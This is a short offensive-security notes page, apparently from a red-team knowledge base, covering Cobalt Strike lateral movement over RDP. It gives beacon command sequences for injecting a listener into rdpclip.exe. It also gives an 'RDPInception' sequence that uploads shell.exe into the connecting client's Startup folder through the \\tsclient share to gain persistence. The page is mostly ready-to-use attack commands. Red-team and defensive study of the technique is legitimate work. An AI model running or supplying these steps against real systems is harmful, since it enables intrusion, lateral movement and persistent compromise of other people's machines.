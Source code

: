 # Cobalt Strike

Search Tag(s): #lateral-movement #rdp #cobalt-strike #windows

TODO: Convert this with other C2 frameworks including other sections and test this

## RDP Process Injection

```
beacon> net groups

beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>
```

## RDPInception

```
beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>

beacon> ls \\tsclient\c

beacon> upload shell.exe \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Startup/Startup|Startup Persistence]]

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)